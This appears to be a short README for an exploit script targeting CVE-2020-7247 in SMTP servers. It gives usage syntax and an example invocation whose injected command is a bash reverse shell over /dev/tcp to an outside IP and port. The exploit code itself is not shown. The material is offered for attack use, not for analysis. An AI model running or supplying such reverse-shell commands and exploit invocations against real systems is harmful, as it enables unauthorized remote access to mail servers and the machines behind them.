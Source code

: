 # SMTPython

smtp exploit script

CVE-2020-7247

usage:

./SMTPython.py <RemoteHOST> <PORT> <Command> <name@host>
  
example:


./SMTPython.py 192.168.0.4 25 'bash -c "exec bash -i &> /dev/tcp/192.168.1.104 4444 <&1"' user@ubuntu

